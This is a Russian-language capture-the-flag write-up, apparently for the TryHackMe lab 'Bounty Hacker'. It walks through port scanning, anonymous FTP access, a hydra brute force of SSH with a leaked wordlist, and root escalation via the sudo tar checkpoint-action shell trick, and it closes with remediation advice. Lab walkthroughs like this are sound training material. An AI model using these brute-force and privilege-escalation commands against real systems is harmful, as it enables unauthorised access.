

# Bounty Hacker


---

### 🇬🇧 Task Description

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 🥩🔔

### 🇷🇺 Описание задачи

Ты без умолку хвастался своими элитными хакерскими навыками в баре, и несколько охотников за головами решили проверить твои заявления! Докажи, что твой статус — это нечто большее, чем просто пара бокалов в баре. Чую, в твоём будущем пахнет болгарским перцем и говядиной! 🥩🔔

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

Первым делом проверяем доступность целевой машины и сканируем открытые порты! 🕵️

---

#### 🏓 Проверка доступности (ping)

```bash
ping -c 4 10.129.130.46
```

**Результат:**

```
64 bytes from 10.129.130.46: icmp_seq=1 ttl=62 time=67.3 ms
64 bytes from 10.129.130.46: icmp_seq=2 ttl=62 time=746 ms
64 bytes from 10.129.130.46: icmp_seq=3 ttl=62 time=166 ms
64 bytes from 10.129.130.46: icmp_seq=4 ttl=62 time=66.9 ms

--- 10.129.130.46 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
```

✅ Хост жив! `ttl=62` — скорее всего, Linux-система. Потерь нет, можно переходить к сканированию портов.

---

#### ⚡ Сканирование портов (nmap)

```bash
nmap -sC -sV 10.129.130.46
```

**Описание флагов:**
- `-sC` — запуск скриптов категории default (базовые проверки безопасности, сбор информации).
- `-sV` — определение версий сервисов на открытых портах.

**Результат:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-11 21:44 +0300
Nmap scan report for 10.129.130.46
Host is up (0.085s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.172.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0c:8b:95:56:e9:95:e0:32:1b:12:35:41:e5:41:7e:e8 (RSA)
|   256 de:7a:0f:df:3c:3f:71:7f:05:17:0b:5c:43:2e:30:29 (ECDSA)
|_  256 86:81:a4:67:13:1c:22:c3:4e:71:0a:49:71:59:23:f8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

#### 📊 Результаты сканирования

Обнаружено **3 открытых порта**:

| Порт | Сервис | Версия | Примечание |
|------|--------|--------|------------|
| 21/tcp | FTP | vsftpd 3.0.5 | 🔓 Анонимный вход разрешён! |
| 22/tcp | SSH | OpenSSH 8.2p1 | Потенциальная точка входа |
| 80/tcp | HTTP | Apache 2.4.41 | Веб-сервер (Ubuntu) |

---

#### ✅ Ответы на вопросы



- ✅ **Deploy the machine** — машина развёрнута, хост доступен.
- ✅ **Find open ports on the machine** — найдено 3 открытых порта: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**.

---

🔥 **Главная зацепка:** FTP разрешает анонимный вход (`Anonymous FTP login allowed`) — идём туда в первую очередь!

---

### 🔓 Шаг 2: Анонимный вход на FTP

Сканирование показало, что FTP разрешает анонимный вход — пробуем подключиться! 🦶

```bash
ftp 10.129.130.46
```

При запросе имени пользователя вводим `Anonymous`:

```
Name (10.129.130.46:masquadd): Anonymous
230 Login successful.
```

✅ Вход выполнен успешно! Пробуем получить список файлов:

```bash
ftp> ls
```

Первая попытка выдала ошибку `550 Permission denied`, но после перехода в пассивный режим листинг открылся:

```
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

📁 На сервере лежат два файла: `locks.txt` и `task.txt`. Скачиваем оба:

```bash
ftp> get locks.txt
ftp> get task.txt
```

Выходим из FTP:

```bash
ftp> bye
```

---

#### 📂 Просмотр скачанных файлов

Проверяем, что файлы на месте:

```bash
ls
```

Смотрим содержимое `locks.txt` — это список потенциальных паролей (wordlist):

```bash
cat locks.txt
```

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

🔑 Похоже на хороший словарь паролей — пригодится!

Смотрим `task.txt`:

```bash
cat task.txt
```

```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

---

#### ✅ Ответ на вопрос

- ✅ **Who wrote the task list?** — **lin** ✍️

Задание подписано именем `lin` в самом низу — это наш первый потенциальный пользователь системы!

---

### 🔨 Шаг 3: Брутфорс SSH

У нас есть пользователь `lin` и словарь `locks.txt` — самое время подобрать пароль к SSH! 🎯

```bash
hydra -l lin -P locks.txt 10.129.130.46 ssh
```

**Описание утилиты и флагов:**
- `hydra` — мощный инструмент для брутфорса различных сетевых сервисов (SSH, FTP, HTTP и др.).
- `-l lin` — логин (имя пользователя), которое мы нашли в `task.txt`.
- `-P locks.txt` — файл со списком паролей для перебора.
- `ssh` — целевой сервис для атаки.

**Результат:**

```
[22][ssh] host: 10.129.130.46   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
```

🎉 Пароль найден: `RedDr4gonSynd1cat3`!

---

### 🚪 Шаг 4: Вход по SSH

Подключаемся к машине с найденными учётными данными:

```bash
ssh lin@10.129.130.46
```

При первом подключении подтверждаем fingerprint хоста (`yes`), вводим пароль `RedDr4gonSynd1cat3` и попадаем внутрь! 🎊

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
lin@ip-10-129-130-46:~/Desktop$
```

---

### 🏴 Шаг 5: User Flag

Смотрим содержимое рабочего стола пользователя `lin`:

```bash
ls
cat user.txt
```

**Результат:**

```
THM{███████████████████████}
```

✅ Пользовательский флаг получен!

---

#### ✅ Ответы на вопросы

- ✅ **What service can you bruteforce with the text file found?** — **ssh** 🔐
- ✅ **What is the users password?** — **RedDr4gonSynd1cat3** 🔑

---

🚀 Теперь, имея локальный доступ, пора искать пути повышения привилегий до root!

---

### 🕵️ Шаг 6: Поиск путей повышения привилегий

Получив доступ к системе, проверяем права `sudo` для пользователя `lin`:

```bash
sudo -l
```

После ввода пароля `RedDr4gonSynd1cat3` видим:

```
Matching Defaults entries for lin on ip-10-130-160-186:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on ip-10-130-160-186:
    (root) /bin/tar
```

🎯 Пользователь `lin` может запускать `/bin/tar` от root без дополнительного пароля! Это прямой путь к повышению привилегий.

---

### 📚 GTFOBins

[GTFOBins](https://gtfobins.org/) — это тщательно подобранный список Unix-бинарников, которые можно использовать для обхода ограничений безопасности и повышения привилегий в системах с неправильной конфигурацией. Если пользователь может запускать какую-либо программу с `sudo`, GTFOBins подскажет, как превратить это в root-шелл! 🧠💥

---

### 💥 Шаг 7: Эксплуатация tar — повышение до root

Ищем `tar` на [GTFOBins](https://gtfobins.org/gtfobins/tar/) и используем готовую команду для `sudo`:

```bash
sudo /bin/tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

**Описание команды:**
- `sudo` — выполнение от root.
- `/bin/tar` — запуск утилиты `tar`.
- `cf /dev/null` — создаём фиктивный архив в `/dev/null` (никуда).
- `/dev/null` — «архивируем» пустоту.
- `--checkpoint=1` — выводим сообщение каждые 1 запись (заставляет `tar` выполнять checkpoint-action).
- `--checkpoint-action=exec=/bin/sh` — при срабатывании checkpoint выполняем `/bin/sh`, который запускается с правами root.

**Результат:**

```
# cd /root
# ls
root.txt  snap
# cat root.txt
THM{███████████████}
```

🔴 **Root-флаг получен!** Машина полностью скомпрометирована! 🎉

---


## 🏁 Итог

Машина **Bounty Hacker** успешно пройдена по классической цепочке атак:

> 🔍 Recon → 🔓 Anonymous FTP → 📂 Data Exfil → 🔨 SSH Bruteforce → 🚪 Initial Access → 💥 sudo tar (GTFOBins) → 👑 Root

**Ключевые точки:**
- 💀 Безопасность FTP: анонимный вход раскрыл критически важные файлы
- 📝 Утечка информации: `task.txt` содержал имя пользователя, `locks.txt` — готовый словарь паролей
- 🔑 Слабые учётные данные: пароль легко подобран `hydra`
- ⚙️ Опасные sudo-права: `tar` с root-доступом позволил мгновенно повысить привилегии

В реальной системе рекомендации по исправлению:
- ❌ Отключить анонимный доступ к FTP
- 🔒 Использовать сложные пароли
- 🛡️ Ограничить `sudo` только необходимыми командами без возможности escape

---

Автор: **masquadd** 👾
